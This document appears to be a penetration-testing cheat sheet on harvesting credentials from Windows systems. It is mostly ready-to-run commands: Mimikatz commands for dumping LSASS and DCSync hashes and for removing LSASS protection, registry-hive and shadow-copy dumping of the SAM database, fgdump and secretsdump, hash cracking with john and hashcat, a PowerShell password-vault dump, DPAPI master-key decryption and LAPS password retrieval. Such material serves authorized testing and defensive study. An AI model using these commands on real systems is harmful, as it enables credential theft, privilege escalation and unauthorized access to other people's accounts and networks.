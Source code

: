 # Credentials harvesting

## Enumerate Users And Hashes

```
privilege::debug
token::elevate

lsadump::lsa /inject /name:<user>    //NTLM hash of user
lsadump::dcsync /user:krbtgt         //Hashes of specified user

sekurlsa::logonpasswords //NTLM and SHA1 hashes
sekurlsa::credman        //vault credentials
sekurlsa::ekeys /aes128
sekurlsa::ekeys /aes256

vault::cred    //vault credentials
vault::list    //credman plaintext passwords
```

if the logonpassword command returns an error `Handle on memory (0x00000005)` download the library from [here](https://github.com/ParrotSec/mimikatz/raw/master/Win32/mimidrv.sys) (Win32) or [here](https://github.com/ParrotSec/mimikatz/raw/master/x64/mimidrv.sys) (Win64) in the same folder as the mimikaz executable and use the following commands in Mimikatz to disable LSASS protection

```
!+
!processprotect /process:lsass.exe /remove
```

## Password To NTLM

```
python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'
```

## SAM

### Dumping

#### Manual

Administrative privileges are required to dump register keys

```
reg.exe save hklm\sam c:\dp\sam.save
reg.exe save hklm\system c:\dp\system.save
reg.exe save hklm\security c:\dp\security.save
```

Possible backups location

```
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

#### ShadowCopy Exploit

It is possible to retrieve and dump keys from old backup versions of the system saved with ShadowCopy. Once the backup version is exposed you can dump the SAM credentials and extract DPAPI hashes. All the following operations require Admin privileges

Enumerate existing copies

```
vssadmin list shadows
```

Create a new shadowCopy archive

```
wmic shadowcopy call create Volume='C:\'
```

Create a link to the copy

<pre><code><strong>mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\&#x3C;shadow copy volume name>\
</strong></code></pre>

IF you're unable to navigate the link due to access permission errors It is still possible to extract files from the shadow copy

```
copy \\?\GLOBALROOT\Device\<shadow copy vol>\windows\system32\config\sam <dest>\sam
copy \\?\GLOBALROOT\Device\<shadow copy vol>\windows\system32\config\system <dest>\system
```

#### fgdump.exe

Runs locally, creates a file with the hashes.

```
fgdump.exe
fgdump.exe -t    #test for anti-virus presence
fgdump.exe -a    #don't try to disable anti-virus
fgdump.exe -r    #ignore existing dump files
```

#### Mimikatz

```
lsadump::sam                 //SAM database
lsadump::secrets             //SAM secrets
```

### Decryption

Impacket - secretsdump.py

<pre><code>secretsdump.py -sam &#x3C;sam file> -system &#x3C;system file> LOCAL
<strong>secretsdump.py -sam &#x3C;sam file> -system &#x3C;system file> -security &#x3C;sec file> LOCAL
</strong></code></pre>

Samdump or Pwdump

```
samdump2 system.save sam.save
pwdump SYSTEM SAM > <file>
```

After obtaining the hashes they can be cracked to obtain the passwords or used in Pass the Hash attacks. In order to obtain the passwords we need only the NT part of the hash. given an hash with the following structure `AAAA:BBBB` the actual string to bruteforce is the one to the right of the column

```
john -format=NT -wordlist=<wordlist> <hashfile>
hashcat -m 1000 -a 0 --force --show --username <hash> <wordlist> #rows follow the format <user>:<hash>
```

## Vault credentials dump

Enumerate credentials manager entries

```
vaultcmd /list
VaultCmd /listcreds:"<entry name>"
```

Dump credentials associated with the vault entry

```
$ClassHolder = [Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$VaultObj = new-object Windows.Security.Credentials.PasswordVault
$VaultObj.RetrieveAll() | foreach { $_.RetrievePassword(); $_ }
```

## DPAPI

Usual credential files position

```
%appdata%\Microsoft\Credentials\
%localappdata%\Microsoft\Credentials\
%appdata%\Microsoft\Protect\<usersid>\    //master key
```

Enumerate Credentials hashes. The parameter `guidMasterKey` reveals the hash of the master key

```
dpapi::cred /in:"<path to cred hash>" 
```

Retrieve the master key, decode it and store the key in cache. In order to decrypt the key we need to be operating under the same context (user, system) the key belongs to.

```
dpapi::masterkey /in:"<Path to MasterKeyGUID>" 
dpapi::masterkey /in:"<Path to MasterKeyGUID>" /rpc
dpapi::cache
```

Decrypt other hashes with the master key

```
dpapi::cred /in:"<path to CredHash>"
```

## LAPS

Verify that LAPS is installed by searching for `admpwd.dll` usually in `C:\Program Files\LAPS\CSE`

Check available commands in PowerShell

```
Get-Command *AdmPwd*
```

Find groups allowed to interact with LAPS. If command run with a wildcard argument throws an exception after returning one or more values call the command again but this time specify as identity parameter one of the OUs obtained the first time

```
Find-AdmPwdExtendedRights -Identity *
Find-AdmPwdExtendedRights -Identity <OU>
```

Get users of the detected group

```
net groups "<group>"
```

Run the following command in the context of a user part of the group allowed to interact with LAPS to dump the stored passwords. The target is the machine with LAPS enabled

```
Get-AdmPwdPassword -ComputerName <target>
```
